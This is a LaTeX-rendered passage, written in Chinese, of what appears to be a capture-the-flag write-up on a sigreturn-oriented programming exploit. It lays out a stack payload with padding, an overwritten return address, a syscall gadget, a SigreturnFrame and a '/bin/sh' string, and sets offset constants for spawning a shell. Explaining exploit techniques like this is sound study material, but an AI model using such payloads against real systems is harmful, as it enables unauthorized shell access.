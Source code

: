 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
payload 在記憶體裡的樣子（buf = leak - 0x80）：

buf+0x000  ┌─────────────────────────────────┐
           │ B B B B ... （0x80 bytes 垃圾） │  ← 第二次 read 的 15 bytes 會蓋在 buf+0x08
buf+0x080  ├─────────────────────────────────┤
           │ 0x40104f  ← 覆蓋掉的返回位址    │  ← vuln 的 ret 跳到這裡
buf+0x088  ├─────────────────────────────────┤
           │ 0x401069  ← 下一次 ret 的目標   │
buf+0x090  ├─────────────────────────────────┤
           │ SigreturnFrame (0xf8 bytes)     │  ← rt_sigreturn 就從這裡讀！
buf+0x188  ├─────────────────────────────────┤
           │ （padding）                     │
buf+0x1a0  ├─────────────────────────────────┤
           │ "/bin/sh\x00"                   │  ← frame.rdi 指向這裡
buf+0x400  └─────────────────────────────────┘
\end{Verbatim}

\textbf{關鍵細節：\texttt{rsp} 的位置。}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
ret 到 0x40104f 的時候  rsp = buf + 0x88
0x40104f 讀進來的資料從    buf + 0x08 開始（因為此刻 rsp = buf+0x88，rsi = rsp-0x80）
0x40106b 的 ret         pop 掉 buf+0x88 的值，rsp 變成 buf + 0x90
\end{Verbatim}

\begin{quote}
所以第二次那 15 bytes 會蓋在
\texttt{buf+0x08}\textasciitilde{}\texttt{buf+0x16}，也就是第一段
payload 的 padding 區， 不會碰到 \texttt{buf+0x90} 的 sigframe ------
這才是「送 15 bytes 是安全的」的真正理由。 （不是「它落在
\texttt{buf+0x00}」，而是它落在 \textbf{\texttt{buf+0x08}}，兩者都能碰到
sigframe 之前就停住。）
\end{quote}

所以我們把 \texttt{SYSCALL\_\allowbreak{}RET} 放在 \texttt{buf+0x88}（payload 的第 2
個 qword）， 就會在那一刻 \texttt{ret} 過去，而此時
\textbf{\texttt{rsp\ \allowbreak{}=\ \allowbreak{}buf\ \allowbreak{}+\ \allowbreak{}0x90}}。 \texttt{sigframe} 必須正好從
\texttt{rsp} 開始 → 所以 \texttt{FRAME\_\allowbreak{}OFF\ \allowbreak{}=\ \allowbreak{}0x90}。

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{FRAME\_OFF }\OperatorTok{=} \BaseNTok{0x90}
\NormalTok{SH\_OFF    }\OperatorTok{=} \BaseNTok{0x1A0}     \CommentTok{\# frame 約 248 bytes，擺在 0x90；字串放 0x1A0 不會打架}
\NormalTok{frame\_addr }\OperatorTok{=}\NormalTok{ buf }\OperatorTok{+}\NormalTok{ FRAME\_OFF}
\NormalTok{sh\_addr    }\OperatorTok{=}\NormalTok{ buf }\OperatorTok{+}\NormalTok{ SH\_OFF}
\end{Highlighting}
\end{Shaded}
\end{document}
